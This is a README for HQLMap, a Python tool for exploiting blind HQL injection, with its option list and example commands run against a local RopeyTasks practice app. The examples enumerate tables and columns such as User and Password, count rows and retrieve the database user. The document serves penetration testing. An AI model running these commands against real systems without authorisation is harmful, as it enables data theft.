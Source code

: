 HQLMap
========

This project has been created to exploit Blind HQL Injections. 
The tool has been written in Python and is released under MIT License. 

### Where can you try the tool ? 

If you have a fast environment where you can try the tool, I would recommend using RopeyTasks :
https://github.com/continuumsecurity/RopeyTasks/

Moreover, if you want further information regarding HQLi, check this blog post : 
http://blog.h3xstream.com/2014/02/hql-for-pentesters.html

### Installation

To install this project, you just have to clone this project by typing : 

```
git clone git@github.com:PaulSec/HQLmap.git
```

### Usage

TO use this project, go in the directory :

```
cd HQLmap
```

And launch the project : 

```
python HQLmap.py
```

Usage is then displayed : 

```
Usage: HQLmap.py [options]

Options:
  -h, --help            show this help message and exit
  --url=URL             qURL to pentest
  --cookie=COOKIE       Cookie to test it
  --param=PARAM         Param to test
  --message=BLIND_HQLI_MESSAGE
                        Message appearing while Blind HQLi
  --tables              Tries to gather as much tables as possible (With
                        Bruteforce)
  --T=TABLE             Name of the table you want to get
  --table_name_file=FILE_TABLE
                        DB file for name of tables
  --columns             Tries to gather as much columns as possible (With
                        Bruteforce)
  --C=COLUMN            Name of the column you want to get
  --column_name_file=FILE_COLUMN
                        DB file for name of columns
  --check               Check if host is vulnerable
  --user                Tries to get user() from dbms
  --count               Get count of specified table(s)
  --results             Enumerate results after session
  --verbose             Verbose mode
```

### Usage

This part includes different scenarios. 

### Checking if host is vulnerable
```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --check
```

The output is really simple : 

```
Host seems vulnerable.
```

### Enumerating tables

```
$ python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --tables
```

Here is the output : 

```
[!] Table User has been found.
[!] Table Task has been found.
[-] Table News does not exist.
[-] Table Test does not exist.
```

By performing such enumeration, the scanner is using default file for the name of the tables if not specified. 
The default file is : db/tables.db


### Enumeration columns

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --tables --columns
```
```
[!] Table User has been found.
[!] Table Task has been found.
[-] Table News does not exist.
[-] Table Test does not exist.
[!] Column Id has been found in table Task
[-] Column username in Task does not exist.
[-] Column password in Task does not exist.
[!] Column Status has been found in table Task
[-] Column user_id in Task does not exist.
(...)
[!] Column Password has been found in table User
[-] Column status in User does not exist.
[-] Column user_id in User does not exist.
[!] Column Email has been found in table User
[!] Column Firstname has been found in table User
[!] Column Lastname has been found in table User
```

By performing such enumeration, the scanner is using default file for the name of the tables AND for the name of the columns.
Default files are : 

For tables : db/tables.db
For columns : db/columns.db


### Checking existence of a specific table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=foo
```

And the output :

```
[-] Table foo does not exist.
```

### Enumerating columns of a specific table


```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=User --columns
```

And the output :

```
[!] Table User has been found.
[!] Column Id has been found in table User
[!] Column Username has been found in table User
[!] Column Password has been found in table User
[-] Column status in User does not exist.
[-] Column user_id in User does not exist.
[!] Column Email has been found in table User
[!] Column Firstname has been found in table User
[!] Column Lastname has been found in table User

```

### Checking the existence of a specific column for a specific table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=User --C=bar
```

And the output :

```
[!] Table User has been found.
[-] Column bar in User does not exist.
```

## Fingerprinting options 

### Retrieving the count of a table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --T=User --count
```

Or for all tables :

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --tables --count
```

And the output : 

```
[!] Table User has been found.
[!] Count(*) of User : 3
```

### Retrieving user of the database 

To do such action, you need to specify a table (or all with --tables flag) and add --user flag this way :

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --message="Eggs, Milk and Cheese baby, yeah." --T=User --user
```

And the output (after few secs) :

```
[!] Table User has been found.
[!] Username of Database found : SA
```

To retrieve the user, I implemented an algorithm really similar to a "variable" dichotomy. 

### Conclusion (& License)
Feel free to give feedbacks and ask for new features.  

Project released under MIT license. 

